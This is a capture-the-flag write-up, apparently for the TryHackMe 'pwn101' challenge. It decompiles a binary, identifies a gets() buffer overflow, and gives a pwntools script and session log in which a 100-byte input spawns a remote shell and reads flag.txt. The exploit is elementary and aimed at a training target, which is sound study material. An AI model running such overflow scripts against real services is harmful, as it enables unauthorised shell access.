

Let's download the task file



After decompiling the task file with ghidra we get an idea that their is a possible buffer overflow in the code since `gets()` is used which is a dangerous function

```c
void main(void)

{
  char local_48 [60];
  int local_c;
  
  local_c = 0x539;
  setup();
  banner();
  puts(
      "Hello!, I am going to shopping.\nMy mom told me to buy some ingredients.\nUmmm.. But I have l ow memory capacity, So I forgot most of them.\nAnyway, she is preparing Briyani for lunch, Can  you help me to buy those items :D\n"
      );
  puts("Type the required ingredients to make briyani: ");
  gets(local_48);
  if (local_c == 0x539) {
    puts("Nah bruh, you lied me :(\nShe did Tomato rice instead of briyani :/");
                    /* WARNING: Subroutine does not return */
    exit(0x539);
  }
  puts("Thanks, Here\'s a small gift for you <3");
  system("/bin/sh");
  return;
}
```

Let's run the code and see 

```shell
pl4int3xt@archlinux ~/D/p/pwn101> ./pwn101.pwn101
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
salt
Nah bruh, you lied me :(
She did Tomato rice instead of briyani :/
```

Let's generate 100 A's and see if it overflows the buffer

```shell
pl4int3xt@archlinux ~/D/p/pwn101 [124]> python -c 'print ("A"*100)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The A's worked from the local binary

```shell
pl4int3xt@archlinux ~/D/p/pwn101> ./pwn101.pwn101
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thanks, Here's a small gift for you <3
sh-5.2$ ls
payload  pwn101.pwn101	pwn101.py
sh-5.2$
```

Let's create a script to automate that

```python
from pwn import *

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# Start the executable
io = remote(sys.argv[1], sys.argv[2])

# Send the payload
io.sendlineafter(b':', b"A"*100)

# Receive the flag
io.interactive()
```

We get a shell in the system since the code calls `/bin/sh` after the overflow

```shell
pl4int3xt@archlinux ~/D/p/pwn101 [1]> python3 pwn101.py 10.10.95.255 9001
[+] Opening connection to 10.10.95.255 on port 9001: Done
[DEBUG] Received 0x110 bytes:
    00000000  20 20 20 20  20 20 20 e2  94 8c e2 94  ac e2 94 90  │    │   ·│····│····│
    00000010  e2 94 ac e2  94 80 e2 94  90 e2 94 ac  20 e2 94 ac  │····│····│····│ ···│
    00000020  e2 94 ac 20  e2 94 ac e2  94 8c e2 94  80 e2 94 90  │··· │····│····│····│
    00000030  e2 94 8c e2  94 80 e2 94  90 e2 94 ac  e2 94 8c e2  │····│····│····│····│
    00000040  94 80 e2 94  8c e2 94 ac  e2 94 90 e2  94 8c e2 94  │····│····│····│····│
    00000050  80 e2 94 90  0a 20 20 20  20 20 20 20  20 e2 94 82  │····│·   │    │ ···│
    00000060  20 e2 94 9c  e2 94 ac e2  94 98 e2 94  94 e2 94 ac  │ ···│····│····│····│
    00000070  e2 94 98 e2  94 9c e2 94  80 e2 94 a4  e2 94 9c e2  │····│····│····│····│
    00000080  94 80 e2 94  a4 e2 94 82  20 20 e2 94  9c e2 94 b4  │····│····│  ··│····│
    00000090  e2 94 90 e2  94 82 e2 94  82 e2 94 82  e2 94 9c e2  │····│····│····│····│
    000000a0  94 a4 20 0a  20 20 20 20  20 20 20 20  e2 94 b4 20  │·· ·│    │    │··· │
    000000b0  e2 94 b4 e2  94 94 e2 94  80 20 e2 94  b4 20 e2 94  │····│····│· ··│· ··│
    000000c0  b4 20 e2 94  b4 e2 94 b4  20 e2 94 b4  e2 94 94 e2  │· ··│····│ ···│····│
    000000d0  94 80 e2 94  98 e2 94 b4  20 e2 94 b4  e2 94 b4 20  │····│····│ ···│··· │
    000000e0  e2 94 b4 e2  94 94 e2 94  80 e2 94 98  0a 20 20 20  │····│····│····│·   │
    000000f0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 70 77  │    │    │    │  pw│
    00000100  6e 20 31 30  31 20 20 20  20 20 20 20  20 20 20 0a  │n 10│1   │    │   ·│
    00000110
[DEBUG] Received 0x10d bytes:
    b'\n'
    b'Hello!, I am going to shopping.\n'
    b'My mom told me to buy some ingredients.\n'
    b'Ummm.. But I have low memory capacity, So I forgot most of them.\n'
    b'Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D\n'
    b'\n'
    b'Type the required ingredients to make briyani: \n'
[DEBUG] Sent 0x3d bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
[*] Switching to interactive mode
D

Type the required ingredients to make briyani: 
[DEBUG] Received 0x26 bytes:
    b"Thanks, Here's a small gift for you <3"
Thanks, Here's a small gift for you <3[DEBUG] Received 0x1 bytes:
    b'\n'

$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x19 bytes:
    b'flag.txt\n'
    b'pwn101\n'
    b'pwn101.c\n'
flag.txt
pwn101
pwn101.c
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x20 bytes:
    b"THM{REDACTED..}}\n"
THM{REDACTED..}
$ 
```